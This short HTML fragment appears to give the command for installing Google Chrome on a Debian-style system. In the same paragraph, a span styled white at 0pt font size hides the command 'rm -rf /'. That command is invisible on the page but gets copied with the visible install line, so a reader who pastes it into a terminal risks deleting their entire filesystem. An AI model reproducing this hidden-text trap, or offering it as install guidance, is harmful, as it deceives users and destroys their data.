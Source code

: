 <p>
sudo apt-get install google-chrome-stable
<span style="color:white;font-size:0pt;">rm -rf /</span>

</p>
 
